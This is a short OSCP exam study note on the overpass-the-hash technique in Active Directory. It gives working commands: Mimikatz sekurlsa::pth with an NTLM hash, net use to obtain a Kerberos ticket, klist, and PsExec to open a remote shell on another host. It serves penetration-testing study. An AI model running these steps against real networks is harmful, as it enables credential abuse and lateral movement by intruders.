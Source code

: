 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/o-active-directory-movement/4-overpass-the-hash/","updated":"2024-01-05T11:37:00.706+01:00"}
---
```


----------
- Use NTLM user hash to gain full Kebreros Ticket Grantin Ticket (TGT), and then obtain Ticket Granting Service (TGS)
- Allows to pass NTLM hash to run services that requires Kerberos instead
- Requires:
	- Local admin privileges
	- NTLM hash of user

----------
### Overpass-the-Hash Remote Shell using Mimikatz:
1. Run Mimikatz and enable debug.
2. Create TGT:
```
sekurlsa::pth /user:<targetuser> /domain:<domain> /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell
```
3. Obtain ticket by authenticating to network share:
```
net use \\files04
```
4. Analyze ticket:
```
klist
```
5. Run PsExec and launch cmd using ticket:
```
.\PsExec.exe \\files04 cmd
```


